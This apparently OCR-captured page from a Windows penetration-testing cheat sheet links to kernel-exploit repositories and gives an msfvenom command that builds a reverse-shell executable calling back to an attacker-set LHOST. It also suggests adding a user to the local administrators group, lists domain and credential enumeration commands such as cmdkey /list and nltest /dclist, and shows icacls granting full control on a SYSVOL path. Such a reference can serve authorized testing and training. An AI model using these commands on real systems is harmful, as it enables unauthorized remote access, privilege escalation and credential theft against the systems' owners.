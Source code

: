 ### Windows Exploits DB
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/abatchy17/WindowsExploits

## Enumeration (https://github.com/gquere/WindowsPentestCommands)
### Pre-checks
1. Reverse shell with msfvenom (Note: will be blocked by antivirus)
 `msfvenom -p windows/x64/shell_reverse_ tcp LHOST=x.x.x.x LPORT=XXXX -f exe -o reverse.exe`
 Note: change exe to dll, or msi, and change the extension of output for other filetypes
2. IF RDP is avaialble or can be enabled, we can add a low privileged user to the admin group and then spawn a shell (net localgroup administrators <username> /add) 

### User
```bash
#which user
whoami
whoami /groups
whoami /priv

#what local accounts users
net users

#check for admin privilege
net localgroup administrators

#List and get domain user info
net user /domain
net user <username> /domain

#Get domain info
echo %userdomain%
echo %userdnsdomain%
systeminfo

#Domain controllers, including PDC info
nltest /dclist:

#list all saved creds from Credential Manager
cmdkey /list

#users who are logged in in current session/connected users
qwinsta
quser
```

### Permissions
```bash
#listing permissions
icacls C:\Windows\SYSVOL\whatever

#granting permissions
icacls **C:\Windows\SYSVOL\whatever /grant** "NT AUTHORITY\Authenticated Users":F
```
